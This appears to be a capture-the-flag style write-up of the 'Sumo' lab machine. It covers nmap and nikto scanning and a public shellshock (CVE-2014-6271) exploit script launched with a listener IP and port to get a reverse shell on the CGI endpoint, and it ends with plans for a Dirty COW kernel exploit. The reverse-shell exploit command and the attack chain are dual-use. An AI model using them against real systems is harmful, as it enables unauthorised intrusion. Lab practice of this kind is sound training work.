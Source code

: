# Sumo

Let’s find the IP Address first >>

![Untitled](Sumo/Untitled.png)

```bash
IP : 192.168.249.136
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.136
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-20 06:38 EDT
Nmap scan report for 192.168.249.136
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06cb9ea3aff01048c417934a2c45d948 (DSA)
|   2048 b7c5427bbaae9b9b7190e747b4a4de5a (RSA)
|_  256 fa81cd002d52660b70fcb840fadb1830 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 00:0C:29:E6:D1:ED (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](Sumo/Untitled%201.png)

After this I directory Traversal this site and got nothing . So I tried nikto and I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Sumo]
└─$ nikto -h http://192.168.249.136/ -o nikto.txt
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.249.136
+ Target Hostname:    192.168.249.136
+ Target Port:        80
+ Start Time:         2023-05-20 06:42:39 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ /: Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 13:55:10 2020. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /index: Uncommon header 'tcn' found, with contents: list.
+ /index: Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. The following alternatives for 'index' were found: index.html. See: http://www.wisec.it/sectou.php?id=4698ebdc59d15,https://exchange.xforce.ibmcloud.com/vulnerabilities/8275
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ /cgi-bin/test: Uncommon header '93e4r0-cve-2014-6271' found, with contents: true.
+ /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278
+ OPTIONS: Allowed HTTP Methods: GET, HEAD, POST, OPTIONS .
+ /cgi-bin/test/test.cgi: This might be interesting.
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
+ 8909 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2023-05-20 06:49:27 (GMT-4) (408 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

From web I got tried this and it works fine →

```bash

```

![Untitled](Sumo/Untitled%202.png)

That confirms the shellshock vulnerability →

Now I need to try shellshock and for that I recon on web and got this →

[https://github.com/b4keSn4ke/CVE-2014-6271](https://github.com/b4keSn4ke/CVE-2014-6271)

Lets try this ⬆️ out →

```bash
python3 [shellshock.py](http://shellshock.py/) 192.168.249.128 4444 [http://192.168.249.136/cgi-bin/test](http://192.168.249.136/cgi-bin/test)
```

In response to the nc I got this →

![Untitled](Sumo/Untitled%203.png)

Now I have a sumo user and after so much enumeration I think , I have to kernal exploit →

```bash
www-data@ubuntu:/usr/lib/cgi-bin$ uname -an
uname -an
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
www-data@ubuntu:/usr/lib/cgi-bin$
```

Now I have to use an exploit names as `dirty cow` so lets go →
